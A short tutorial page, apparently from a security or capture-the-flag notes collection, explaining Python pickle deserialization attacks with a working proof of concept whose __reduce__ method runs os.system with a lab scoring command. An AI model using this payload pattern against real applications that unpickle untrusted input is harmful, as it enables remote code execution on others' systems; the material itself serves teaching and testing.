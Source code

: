 ```yaml
---
description: Serialization
---
```


# Pickle Code Execution

If an application unserializes data using pickle based on a string under your control, you can execute code in the application. To do so, you will need to create a malicious object.

```
import os
import base64
import pickle

class Blah(object):
  def __reduce__(self):
    return (os.system,("/usr/local/bin/score 9099ff30-bcb2-4aa6-be31-bb9e8de9ef03",))

h=Blah()
print(base64.b64encode(pickle.dumps(h,2)))
```

The above code is in Python3

